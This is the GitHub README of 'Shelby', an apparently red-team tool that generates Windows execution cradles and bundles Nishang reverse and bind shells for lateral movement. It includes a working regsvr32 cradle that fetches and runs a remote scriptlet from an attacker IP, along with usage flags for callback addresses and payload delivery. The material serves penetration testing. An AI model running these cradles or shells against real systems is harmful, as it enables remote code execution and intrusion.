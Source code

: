 <p align="center">
  <img alt="By Order of the Peaky Blinders" src="https://i.imgur.com/5n0ly8K.png" height="140"/>
  <p align="center">
    <a href="https://github.com/ad-995/shelby/releases/latest"><img alt="Release" src="https://img.shields.io/github/release/ad-995/shelby.svg?style=flat-square"></a>
    <a href="https://github.com/ad-995/shelby/blob/master/LICENSE"><img alt="Software License" src="https://img.shields.io/badge/license-MIT-brightgreen.svg?style=flat-square"></a>
    <a href="https://github.com/ad-995/shelby/issues"><img alt="GitHub issues" src="https://img.shields.io/github/issues/ad-995/shelby.svg?style=flat-square"></a>
    </p>
</p>

<h5 align="center"><i>Execution Cradle Generation!</i></h5>

***

## Introduction

`Shelby` is a Windows Execution Cradle Generator inspired by [PoshC2](https://github.com/nettitude/PoshC2/blob/master/poshc2/server/Payloads.py) and their `PoshC2_Project/quickstart.txt` documentation. 

The aim of this project is to automatically generate several commonly used Execution Cradles for lateral movement. Future releases will include some classic Linux cradles too.

## Cradles
For our initial proof-o'-concept, we have two cradles:
- `regsvr32`
- `powershell IEX (...)`

These can be run with any command execution. When `Shelby` is run, the provided snippets will update with the given IP address and port and are available in plaintext and base64-encoded.

## Shells
Two shells are currently inside `Shelby`, both from [Nishang](https://github.com/samratashok/nishang). We found these to be more reliable:
- [Invoke-PowerShellTcp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
- [Invoke-PowerShellTcpOneLineBind](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLineBind.ps1)

Additional shells for Windows and Linux coming soon!

## Modularity
Details on how to add cradle and shells to `Shelby` can be found at [ad-995](https://ad-995.group/projects/shelby.html).

## Example
Below is an example output:
![Shelby Output](https://i.imgur.com/G0XRmTS.png)

## Usage
```
usage: shelby.py [-h] -i  [-w] [-p] [-d]

Giver of shells

optional arguments:
  -h, --help            show this help message and exit
  -i , --ip-address     Attacker IP Address
  -p , --cradle-port    Port for receiving shells
  -w , --web-delivery   Port for serving shells
  -d , --directory      Directory for generated payloads
```

There are some important things to note here:
- `--ip-address`: The IP address that the `shells` will call back to.
- `--cradle-port`: The port that the `shells` will call back to.
- `--web-delivery`: The port that the `cradles` will use to retrieve the `shell`.
- `--directory`: The directory in which all the `cradles` and `shells` will be saved to, as well as the `cradle_commands.txt` file. You should run your web delivery server here.

The `cradle_commands.txt` file contains all the Execution Cradle commands. For example:

```
regsvr32:
regsvr32 /s /n /u /i:http://10.10.11.58:80/sctlvjzqylbdzdl scrobj.dll
```

As more Execution Cradles are added, the format will be the same.:

```
Method:
Cradle Command
```

Finally, the easiest usecase here is to serve the `./web_delivery` directory with `python -m SimpleHTTPServer 80`. 

A project by [mez-0](https://github.com/mez-0) & [michaelranaldo](https://github.com/michaelranaldo)
